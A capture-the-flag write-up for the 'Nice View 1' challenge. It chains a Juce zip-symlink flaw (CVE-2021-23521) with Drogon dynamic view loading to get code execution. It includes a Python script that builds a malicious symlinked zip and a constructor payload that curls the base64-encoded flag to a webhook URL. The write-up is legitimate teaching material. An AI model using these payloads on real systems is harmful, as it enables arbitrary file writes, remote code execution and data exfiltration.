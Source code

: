 # Writeup: Nice View 1

*By: TrebledJ*

This is a rehash of some earlier challenges I designed for a different CTF, with the addition of Drogon's Dynamic View Loading functionality. There were a few unintendeds here, but I'll mainly focus on the intended path.

Unfortunately, regular MuseScore files were blocked, since I added some extra unintended-solution defences and forgot to test. So a large swath of players escaped yet another rick roll.

This writeup will be more brief than Malkonkordo, so let's get straight into it.

## Observations

1. Identify software used:

   - Juce 6.1.4 (fingerprint source files)
   - Drogon 1.9.1 (server header)

2. Enumerate vulnerabilities:

   - [CVE-2021-23521](https://nvd.nist.gov/vuln/detail/CVE-2021-23521) - zip symlink attack in Juce's `ZipFile::uncompressTo`/`ZipFile::uncompressEntry` function.
   - Drogon CSP Bad Bad Config
    ```json
    "load_dynamic_views": true,
    "dynamic_views_path": ["./views/d"],
    ```
    How can we know this a potential vulnerability? Because there is a [security warning in the docs](https://github.com/drogonframework/drogon/wiki/ENG-06-View#dynamic-compilation-and-loading-of-views).

3. App allows file upload of `.mscz` (compressed MuseScore) files. These files are then unzipped, parsed, and fed into a Juce synthesiser.

4. Juce 6.1.4's vulnerable `ZipFile::uncompressTo` is called in relay.hpp:

    ```cpp
    juce::Result unzipMusescoreFile(juce::File& mscx, const std::string& musescorePath)
    {
        // Check file exists...
        // Get unzip directory...
        // Check file doesn't contain ZipSlip (../../a/b/c).
        // Check file entries don't contain bad characters.
        for (int i = 0; i < mscz.getNumEntries(); i++) {
            juce::String fn = mscz.getEntry(i)->filename;

            for (char c : fn) {
                if (!(isalpha(c) || c == '/' || c == '.' || c == '-' || c == '_'))
                    return juce::Result::fail("invalid filename");
            }
        }

        // Uncompress...
        if (auto res = mscz.uncompressTo(unzipDirectory, false); !res)
            return res;

        // Blah blah blah...
    }
    ```

5. Views are dynamically returned in the `/view/{}` endpoint. But before returning, a `isViewBadBad` function is called.

    ```cpp
    app().registerHandler(
        "/view/{}",
        [](const HttpRequestPtr& req, std::function<void(const HttpResponsePtr&)>&& callback, const std::string& page) {
            logRequest(req);

            BadBadReason reason = isViewBadBad(page);
            switch (reason) {
				case FileBad: {
					// Not ok.
					break;
				}
				case FileOk: {
					// Ok.
					break;
				}
			}
    });
    ```

    `isViewBadBad` checks file size and blacklisted strings. The blacklist blocks most things such as CSP features (`$$`, `{%`, `view`, `layout`) and some C++ features (`#define`, `system()`, `execve()`), but doesn't block C++ features such as `#include`.

    But these checks can be bypassed, as we'll discover later. (Both in intended and unintended solutions.)


## Exploitation

### Exploiting Juce's Zip Symlink
[Zip symlink attack](https://trebledj.me/posts/attack-of-the-zip/#zip-symlink-attacks) to write arbitrary files to the server. There are numerous ways to craft a malicious zip: shell, Python (some ppl even used PHP!). Here's a little Python snippet I used:

```python
from stat import *
import zipfile

zipf = zipfile.ZipFile('evil.mscz', 'w', compression=zipfile.ZIP_DEFLATED)

# Configure `dir` to be symlink.
info = zipfile.ZipInfo('dir')
info.create_system = 3
info.external_attr = (stat.S_IFLNK | 0o777) << 16

zipf.writestr(info, '/app/views/d/')
zipf.write('evil.csp', f'dir/evil.csp')
zipf.close()
```

...which creates a zip resembling:

```
Archive:  evil.mscz
    Length      Date    Time    Name
---------  ---------- -----   ----
       13  01-01-1980 00:00   dir
      167  08-02-2024 00:16   dir/evil.csp
---------                     -------
      180                     2 files
```

where `dir` is a symlink to `/app/views/d/`.

### Bypassing `isViewBadBad` Checks with `.init` Section and `__attribute__((constructor))`

If you diffed Nice View 1 and Nice View 2, you would notice that the checks in Nice View 2 were performed *prior to* unzipping. In Nice View 1, the intended path was to trigger something *after unzipping*, but *without calling `/view/{}`*.

With Drogon's Dynamic Views Loading, `.csp` files are automatically compiled and loaded. This act of loading will also trigger any typical program startup features such as running functions in the `.init` section.

To do this, we can create a function with [`__attribute__((constructor))`](https://gcc.gnu.org/onlinedocs/gcc-4.1.2/gcc/Function-Attributes.html#:~:text=The%20constructor%20attribute). This allows us to bypass all the post-unzip checks, and allows us to easily run system commands.

```cpp
<%inc
void __attribute__((constructor)) init() {
    system("curl https://webhook.site/12345678-9036-4eb3-a58a-bda4f534a687?b=$(cat /app/flag.txt | base64 -w0)");
}
%>
```

There are different ways to exfiltrate the data in `/app/flag.txt`, but here, we just include it a GET parameter to an attacker-controlled site.

## Flag

```
crew{That's_quite_a_nice_view!_Dynamic_libraries_are_fun,_in'nit?_2061b82f3caf3e55df0c1d8cd}
```

Get it?

## Notable Unintendeds

### Header File Include + `/view/{}`

The CSP file can include arbitrary files using C/C++'s `#include` macro. Since only the CSP file is checked in the `/view/{}` handler, this allows us to bypass any checks in `isViewBadBad`.

Solution: Blacklist `include` (and other potential file inclusion macros).
